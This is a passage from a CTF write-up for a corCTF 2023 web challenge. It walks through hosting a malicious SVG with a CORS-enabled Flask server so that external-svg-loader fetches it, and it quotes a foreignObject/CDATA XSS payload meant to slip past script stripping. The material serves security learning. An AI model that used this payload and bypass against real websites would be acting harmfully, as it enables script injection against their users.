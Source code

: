 **According to [external-svg-loader documentation](https://www.npmjs.com/package/external-svg-loader), it said:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731152814.png)

Ahh, external-svg-loader uses XHR (`XMLHttpRequest`) to fetch files.

**To solve this issue, we can host the SVG file via Flask with `flask_cors` instead of module `http.server`:**
```python
#!/usr/bin/env python3
from flask import Flask, send_file
from flask_cors import CORS

app = Flask(__name__)

# Access-Control-Allow-Origin: *
CORS(app)

@app.route('/payload')
def serveSvgPayload():
    svgPayloadFile = 'payload.svg'
    return send_file(svgPayloadFile)

if __name__ == '__main__':
    app.run(port=80, debug=True)
```

**Now, update the SVG URL and refresh the shared frog page again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731154021.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731154039.png)

**Flask web application:**
```shell
127.0.0.1 - - [31/Jul/2023 15:39:07] "GET /payload HTTP/1.1" 200 -
```

It indeed fetched, **but where's the `<script>` tag??**

**According to [external-svg-loader documentation](https://www.npmjs.com/package/external-svg-loader#user-content-2-enable-javascript), it said:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731154304.png)

Ahh... It'll strip all `<script>` tags and inline scripts (i.e: `onerror`)...

**After some trial and error, I found that the second payload in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-svg-short) is interesting:**
```html
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```

What's that `<foreignObject>` element??
